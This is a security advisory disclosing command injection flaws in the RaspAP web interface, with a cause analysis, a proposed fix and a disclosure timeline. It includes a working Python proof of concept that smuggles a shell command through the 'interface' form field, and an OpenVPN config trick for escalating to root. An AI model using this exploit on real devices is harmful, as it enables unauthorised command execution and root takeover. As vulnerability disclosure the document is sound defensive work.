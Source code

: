 ```yaml
---
pagetitle: Security advisory

...
```


## Security advisory
Multiple command injection vulnerabilities are present in the RaspAP web interface. They allow an authenticated user to execute arbitrary OS commands with the privileges of the web server. Additional factors in the default configuration allow elevation to `root` privileges.

### Affected products

RaspAP v2.8.9 and older


### Steps to reproduce

1. Obtain credentials for RaspAP
2. Configure and execute the following script

```python
#!/usr/bin/env python3

import re
import requests

TARGET="10.3.141.1"
CREDS="admin:secret"
URL=f"http://{CREDS}@{TARGET}/hostapd_conf"

sess = requests.Session()

# Get a valid CSRF token
doc = sess.get(URL).text.replace("\n", "")
csrf = re.match('.*name="csrf_token" value="([^"]+)".*', doc).group(1)

print(csrf)

res = sess.post(URL,
                data={
                   "csrf_token": csrf,
                   "txpower": "auto",

                   # Command payload is here:
                   "interface": ";uptime > /tmp/hax; echo",
                 }
                )

if res.status_code != 200:
  print("Failed to execute command")
```

3. Observe that the file `/tmp/hax` has been created on the raspi, and contains the output of `uptime`.

### Cause
There are two almost identical instances of the vulnerability, at [hostapd.php:103](https://github.com/RaspAP/raspap-webgui/blob/dda1fe6bbb92cffae7a53b516108650bfbb76cb2/includes/hostapd.php#L103) and [hostapd.php:108](https://github.com/RaspAP/raspap-webgui/blob/dda1fe6bbb92cffae7a53b516108650bfbb76cb2/includes/hostapd.php#L108). In both instances, an unsanitized POST variable is fed into a command executed using `exec()`.

A third instance exists at [configure_client.php:20](https://github.com/RaspAP/raspap-webgui/blob/592bce02bfee1169ca92e5e93ebded66bac42c6e/includes/configure_client.php#L20), exploitable in a similar manner.

### Impact

An authenticated user is able to execute arbitrary commands as `www-data`.

In the default RaspAP configuration, this can be leveraged to gain root access by exploiting two of the configured `sudo` permissions; overwrite the openvpn client configuration to set the following:

```
script-security 2
up /tmp/payload.sh
```

and establish an OpenVPN connection. `/tmp/payload.sh` will be executed with root privileges.

### Proposed Mitigation
Apply sanitization to the `txpower` and `interface` parameters, and use the PHP built-in `escapeshellarg()` before passing them to `exec()`.


### History
- 2023-03-30: [Additional fix](https://github.com/RaspAP/raspap-webgui/pull/1326) submitted
- 2023-03-30: [Report](https://github.com/RaspAP/raspap-webgui/issues/1325) merged for all three vulnerabilities
- 2023-03-29: Additional vulnerability reported (`configure_client.php`)
- 2023-03-29: Initial report removed
- 2023-03-29: [Fix](https://github.com/RaspAP/raspap-webgui/pull/1322) applied and released as v2.8.9
- 2023-03-28: Initial report filed (`hostapd.php`)
